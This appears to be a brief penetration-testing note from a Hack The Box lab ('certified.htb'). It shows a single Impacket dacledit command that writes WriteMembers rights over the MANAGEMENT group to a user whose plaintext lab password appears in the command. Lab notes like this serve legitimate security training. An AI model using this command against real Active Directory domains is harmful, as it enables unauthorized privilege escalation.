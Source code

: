 +++
title = "Pentest - Active Directory - DACL"
author = ["svejk"]
draft = false
+++

## Modifying DACLs {#modifying-dacls}

Use Impacket:

```shell { linenos=true, linenostart=1 }
python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

(or `impacket-dacledit`).
